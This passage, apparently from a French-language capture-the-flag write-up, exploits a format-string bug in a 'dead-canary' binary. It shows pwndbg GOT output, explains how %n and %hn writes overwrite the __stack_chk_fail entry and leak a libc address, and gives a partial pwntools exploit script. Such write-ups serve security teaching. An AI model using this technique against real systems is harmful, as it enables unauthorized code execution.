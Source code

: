 ```

pwndbg> got

GOT protection: Partial RELRO | GOT functions: 6
 
[0x601018] _exit@GLIBC_2.2.5 -> 0x4005f6 (_exit@plt+6) ◂— push   0 /* 'h' */
[0x601020] write@GLIBC_2.2.5 -> 0x400606 (write@plt+6) ◂— push   1
[0x601028] __stack_chk_fail@GLIBC_2.4 -> 0x8
[0x601030] setbuf@GLIBC_2.2.5 -> 0x7ffff7a6c4d0 (setbuf) ◂— mov    edx, 0x2000
[0x601038] printf@GLIBC_2.2.5 -> 0x7ffff7a48e80 (printf) ◂— sub    rsp, 0xd8
[0x601040] read@GLIBC_2.2.5 -> 0x7ffff7af4070 (read) ◂— lea    rax, [rip + 0x2e0881]
```

Ici nous avons réécris l'entré de `__stack_chk_fail` avec 8 via la format string.

Cependant pour pouvoir boucler sur le main, nous devons remplacer cette entré par `0x00400737`, ce qui signifierai écrire 4 196 151 caractères, ce qui serait LOOOOOOOONNNNNNNGGGGGGGG! (et de plus notre buffer ne fait que 264 caractères).

Nous devons alors tiré avantage du modificateur de padding de printf, c'est à dire que si nous envoyons : `%020x` à printf il nous affichera : `00000000000000000001`.

Et du modificateur de longeur `hn` qui permet de n'écrire que un short (2 bytes).

De ce fait pour écrire `0x400737` à l'adresse `0x601028`, nous ferons deux écriture:
1. d'abord `0x40` à `0x60102A`
2. ensuite `0x737` à l'adresse `0x601028`

De plus nous devons lire une entré de la GOT pour récupérer une adresse de la libc et calculer son de base.

Pour ca, il suffit de faire un `%n$s\x00AAA<addr printf>` et de lire la sortie:

```
pwndbg> r < <(python -c 'print "%7$s\x00AAA8\x10`\x00\x00\x00\x00\x00"')
What is your name: Hello �����
```

Donc pour le moment, nous avons l'exploit suivant, qui nous donne l'adresse de base de la libc, et fais boucler le programme sur le main.

```python
from pwn import *

elf = ELF("./dead-canary")
libc = elf.libc

p = process(elf.path)
p.recvuntil(": ")

fmt = "%064x"
fmt += "%11$n" 
fmt += "%01783x"
fmt += "%12$hn"
fmt += "%13$s"
fmt += "BBBBBBBBBBB\x00"
fmt += p64(elf.got.__stack_chk_fail + 2)
fmt += p64(elf.got.__stack_chk_fail)
fmt += p64(elf.got.printf) 
fmt += "C"*(272-len(fmt))

log.info("payload size : %s" % str(len(fmt)))
log.info("payload : %s" % fmt)

p.sendline(fmt)
data =  p.recvuntil(":")

data = data.strip().split("BBBB")[0].split("0")[-1]
```